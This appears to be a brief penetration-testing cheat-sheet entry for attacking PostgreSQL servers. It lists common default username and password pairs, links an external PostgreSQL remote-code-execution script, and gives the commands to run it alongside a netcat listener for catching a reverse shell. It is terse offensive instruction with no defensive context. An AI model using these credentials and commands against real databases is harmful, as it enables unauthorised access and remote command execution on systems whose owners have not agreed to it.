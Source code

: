 # ,5437 - Postgres

### Default creds:

<table><thead><tr><th>Username</th><th>Password</th><th data-hidden></th></tr></thead><tbody><tr><td>postgres</td><td>postgres</td><td></td></tr><tr><td>postgres</td><td>password</td><td></td></tr><tr><td>postgres</td><td>admin</td><td></td></tr><tr><td>admin</td><td>admin</td><td></td></tr></tbody></table>

### Command execution:

{% embed url="https://github.com/squid22/PostgreSQL_RCE/blob/main/postgresql_rce.py" %}

```
python3 postgresql_rce.py
nc -lvnp 80
```
